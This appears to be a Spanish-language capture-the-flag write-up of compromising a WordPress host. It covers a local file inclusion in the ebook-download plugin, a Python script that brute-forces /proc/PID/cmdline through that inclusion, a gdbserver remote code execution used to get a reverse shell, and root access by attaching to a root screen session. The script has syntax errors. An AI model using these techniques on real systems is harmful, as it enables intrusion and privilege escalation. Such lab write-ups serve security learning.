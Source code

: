 ---------
- Tags: #lfi #rce #gdbserver #screen #proc/PID/cmdline
----------
## Tecnicas utilizadas

- WordPress Local File Inclusion Vulnerability (LFI)  
- LFI to RCE (Abusing /proc/PID/cmdline)  
- Gdbserver RCE Vulnerability  
- Abusing Screen (Privilege Escalation) [Session synchronization]

---------------
## Procedimiento
![[Pasted image 20230612193630.png]]

El escaneo con nmap da como resultado los siguientes puertos:

![[Pasted image 20230612194102.png]]

Si lanzamos un *whatweb* para ver las tecnologias que corren por detras de la pagina web podemos ver que es un wordpress:

![[Pasted image 20230612194213.png]]

--------------------
#### WordPress Local File Inclusion Vulnerability (LFI)

Si accedemos a la carpeta de */wp-content/plugins/* nos encontramos con que tenemos capacidad directory lisiting y ademas encontrar un archivo sospechoso:

![[Pasted image 20230612201015.png]]

Procederemos a fuzzear en el archivo en busca de algun parametro valido. No encotramos nada. Seguimos investigando las posibles entradas.
Sin embargo, husmeando con searchsploit que es *ebook-download* podemos ver que contiene una vulnerabilidad de tipo *File inclusion* en unos de sus parametros para descargar archivos.

![[Pasted image 20230613101303.png]]

-----------------
#### LFI to RCE (Abusing /proc/PID/cmdline)

Buscando por rutas tipicas no encontramos nada interesante, asi que podemos probar con */proc/$i/cmdline* ya que este cuenta con informacion relevante. Lo hariamos de la siguiente manera:

```python

import  requests, signal, time, sys, pdb
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

#ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url "http://<ip>/<path>/<to>/<lfi>/"

def makeRequest():

	p1 = log.progress("Brute force")
	p1.status("Iniciando fuerza bruta")

	time.sleep(2)

	
	for i in range(1 1000):
		p1.status("Intentando con el path /proc/%s/cmdline" % str(i))
		url = main_url + "/proc/" + str(i) + "/cmdline"

		r = requests.get(url)

		if len(r.content) > 82:
			print("------------------------------------------------")
			log.info("PATH: /proc/%s/cmdlien" % str(i))
			log.info("Total Lengh: %s" % len(r.content))
			print(r.content)
			print("------------------------------------------------")


if __name__ == "__main__":
	
	makeRequest()

```

------------------
#### Gdbserver RCE Vulnerability

Encontramos un proceso interesante, vemos que la maquina esta corriendo **gdbserver**. Inspeccionando un poco con searchsploit vemos que hay una vulnerabilidad que nos permite ejecutar comandos de manera remota.

![[Pasted image 20230613113123.png]]

Si lo ejecutamos, vemos que no funciona a la primera, esto es quizás por que el proceso se esta ejecutando a intervalos regulares de tiempo, si lo seguimos intentando podemos conseguir una reverse shell.

---------------
#### Abusing Screen (Privilege Escalation)

Una vez dentro, si filtramos por binarios con privilegios **SUID** y vemos que existe **Screen**. Si vemos los procesos que se estan ejecutando con *ps -faux* y filtramos por *screen* vemos que hay una sesion que esta iniciada por root.
Si intentamos migrar a la sesion con *screen -x root/* escalamos privilegios.
